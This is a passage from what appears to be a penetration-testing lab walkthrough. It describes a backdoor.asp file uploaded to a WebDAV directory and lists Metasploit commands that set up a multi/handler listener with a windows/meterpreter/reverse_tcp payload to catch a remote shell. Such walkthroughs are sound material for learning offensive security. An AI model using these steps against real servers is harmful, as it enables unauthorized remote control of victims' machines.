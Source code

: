 After the above process, you can clearly see the backdoor.asp file has been successfully uploaded to the “WebDAV” directory.

![bc07d4eef9682c1ba1c534a14d460488.png](resources/bc07d4eef9682c1ba1c534a14d460488.png)

Now, what we have to do is start a listener from our attack machine. For this purpose, I’m going to use Metasploit.

Use the above commands, respectively.

use multi/handler

set LHOST eth1

set payload windows/meterpreter/reverse_tcp

![2b6cd5a66cce70ff33c151a1d0e59375.png](resources/2b6cd5a66cce70ff33c151a1d0e59375.png)
